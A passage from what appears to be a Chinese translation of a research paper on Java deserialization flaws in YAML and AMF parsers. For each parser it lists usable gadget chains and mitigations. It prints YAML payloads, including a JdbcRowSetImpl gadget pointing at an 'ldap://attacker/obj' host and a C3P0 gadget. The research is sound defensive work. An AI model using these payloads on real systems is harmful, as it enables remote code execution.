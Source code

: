   - ScriptEngine (4.16)
  - JdbcRowset (4.2)
  - C3P0RefDS (4.8)
  - C3P0WrapDS (4.9)
  - SpringPropFac (4.10)
  - JNDIConfig (4.7)

- 修复、缓解措施

    SnakeYAML 提供了一个SafeConstructor,禁用所有自定义类型。或者，白名单实现一个自定义Constructor。

#### 3.1.2 jYAML

jYAML 解析自定义类型的语法与 SnakeYAML 有些细微的差别，并且不支持任意构造函数调用。这个项目被抛弃了。它需要一个public 构造函数以及相应的 getter 方法。

jYAML 允许使用 相同的基于属性的和 SnakeYAML 相同的 payloads， 包括 JdbcRowset ：

```java
foo: !com.sun.rowset.JdbcRowSetImpl
    dataSourceName: ldap :// attacker/obj
    autoCommit: true
```

由于 getter 的特殊要求 SpringPropFac 不能触发。jYAML 不允许指定root类型，但他根本就没有检查。

- 可用 payloads

  - JdbcRowset(4.2)
  - C3P0RefDs(4.8)
  - C3P0WrapDS(4.9)

- 修复、缓解措施

    似乎并没有提供一个机制实现白名单

#### 3.1.3 YamlBeans

YamlBeans 对自定义类型使用另一种语法。它仅允许配置过或注释过的构造函数被调用，它需要一个默认构造函数（不一定必须是public）以及相应的 getter 方法。YamlBeans 通过字段枚举一个类型的所有属性，意味着只有那些 setter 函数与字段名相关的才能被使用。 YamlBeans 中 JdbcRowset 不能被触发，因为需要的属性没有一个相应的字段与之匹配。 C3P0WrapDS 却任然能触发。

```java
!com.mchange.v2.c3p0.WrapperConnectionPoolDataSource
    userOverridesAsString: HexAsciiSerializedMap:<payload >
```

YamlBeans 允许指定 root 类型，但它事实上并不做检查。 YamlBeans 有一系列配置参数，例如 禁止non-public 构造函数 或者直接字段可用。

- 可用 payloads

  - C3P0WrapDS(4.9)

- 修复、缓解措施

    似乎并没有提供一个机制实现白名单

#### 3.1.4 Apache Flex BlazeDS

Flex BlazeDS AMF  unmarshallers  需要一个public 默认构造函数和public stters。（marshalling 的实现过程中需要getters；然而，没有那些的 payloads 通过一个自定义的 BeanProxy 也可以被构建，当然这个BeanProxy 也需要获得某些类型的属性排序）
